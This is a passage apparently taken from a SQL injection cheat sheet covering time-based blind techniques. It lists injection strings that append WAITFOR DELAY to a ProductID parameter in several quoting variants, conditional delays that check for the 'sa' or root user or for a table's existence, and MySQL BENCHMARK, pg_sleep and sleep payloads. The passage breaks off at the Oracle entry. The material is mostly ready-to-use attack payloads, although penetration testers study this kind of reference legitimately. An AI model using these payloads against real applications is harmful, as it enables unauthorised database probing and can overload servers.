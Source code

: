 This is just like sleep, wait for specified time. CPU safe way to make database wait.

```ex
WAITFOR DELAY '0:0:10'--
```

Also, you can use fractions like this,

```ex
WAITFOR DELAY '0:0:0.51'
```

Real World Samples

```ex
Are we 'sa' ?
if (select user) = 'sa' waitfor delay '0:0:10'
```

ProductID

```prodid
ProductID = 1;waitfor delay '0:0:10'--
ProductID =1);waitfor delay '0:0:10'--
ProductID =1';waitfor delay '0:0:10'--
ProductID =1');waitfor delay '0:0:10'--
ProductID =1));waitfor delay '0:0:10'--
ProductID =1'));waitfor delay '0:0:10'--
```

BENCHMARK() (M)

Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!

```benchmark
BENCHMARK(howmanytimes, do this)
```

Real World Samples

```ex
Are we root ? woot!
IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))
Check Table exist in MySQL
IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))
```

-> pg_sleep(seconds) (P) : Sleep for supplied seconds.

```pgsleep
SELECT pg_sleep(10); Sleep 10 seconds.
```

-> sleep(seconds) (M) : Sleep for supplied seconds.

```sleep
SELECT sleep(10); Sleep 10 seconds.
```

-> dbms_pipe.receive_message (O) : Sleep for supplied seconds.
